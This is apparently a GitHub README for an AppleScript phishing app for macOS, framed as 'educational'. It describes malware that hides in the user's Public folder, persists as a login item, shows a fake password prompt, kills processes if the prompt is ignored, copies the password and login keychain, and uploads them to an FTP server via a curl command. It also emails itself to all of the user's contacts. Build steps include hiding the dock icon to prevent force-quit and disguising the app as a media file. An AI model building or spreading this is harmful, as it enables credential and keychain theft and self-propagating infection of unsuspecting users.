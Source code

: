Benb116's Phishing app for Mac
==========================

**Use this tool at your own risk. Don't do anything illegal. I do not accept any responsibility for any damages or harm done. This is purely an educational endeavor (for me).**

This is a phishing app that I wrote. It is written in applescript, which is important because it shows that potentially harmful tools can be written using a simple language and relatively limited programming knowledge. It is small and works on macs, whose users often don't worry about malware on their computers. This makes the app more effective, especially when disguised as a music file or photo. 

**Here's what it does:**

* It makes a new hidden directory in the user's public folder, then checks for a killswitch
* It copies a duplicate of itself to the folder and sets it as a login item
* It prompts the user to enter their password into a dialog box. If the user doesn't enter it within 10 seconds, the script sets itself as a login item, then kills all user processes, making the user have to restart in order to use the computer.
![image](http://f.cl.ly/items/3E0x2P0l452W2B1p2T0m/Prompt.png)
*  It copies the password, username, date, WAN IP, and LAN IP to a text file in the hidden folder in the user's public folder ![image](http://cl.ly/KB3S/Screenshot%202012-10-16%20at%206.47.02%20AM.jpg)
*  It uploads this file to an FTP server
*  It copies the user's login keychain into the same folder and uploads it to the same FTP server
*  It sends an email to all of the user's contacts' emails with the app attached.

The script is saved as an application with a duplicate application inside of it. It copies the inner application to the hidden folder and sets it as a login item.

 **Please feel free to test the script by doing the following:**

1. In 'App.applescript' and 'Updater.applescript' find the command that uploads the text file to an FTP server.
2. Replace the parts of the code in '<>' with your information.
	
			tell application "Finder" to do shell script "curl -T ~/Public/" & ufld & "" & theuser & ".txt -u <User>:<Password> ftp://<ftp address></path/to/folder/>" & theuser & "_" & WANIP & "_" & dte & ".txt" -- Upload text file to FTP server
		
	becomes
	
			tell application "Finder" to do shell script "curl -T ~/Public/" & ufld & "" & theuser & ".txt -u Benb116:1234 ftp://123.456.789.0/Desktop/Passwords/" & theuser & "_" & WANIP & "_" & dte & ".txt" -- Upload text file to FTP server3. Repeat steps 1 and 2 in both files with the command that uploads the keychain file.
4. Save App.applescript as an application (example name "App.app")
5. Add the following 2 lines of code to the "info.plist" file in "App.app/Contents/" folder

		<key>NSUIElement</key>
        <string>1</string>
(this prevents a dock icon from appearing and also makes it impossible to force quit the app)
6. Add the file "icon.icns" to the resources folder of "App.app"
7. Save Updater.applescript as an application named "Updater.app" - **This MUST be named "Updater.app" for the script to work**
8. Repeat step 5 and 6 for "Updater.app"
9. Copy Updater.app to the resources folder "App.app"

The resources folder of the "App.app" should look something like this:

![image](http://f.cl.ly/items/2e1H2C3p1L401D1a3944/Screen%20Shot%202012-12-18%20at%207.55.22%20PM.png)
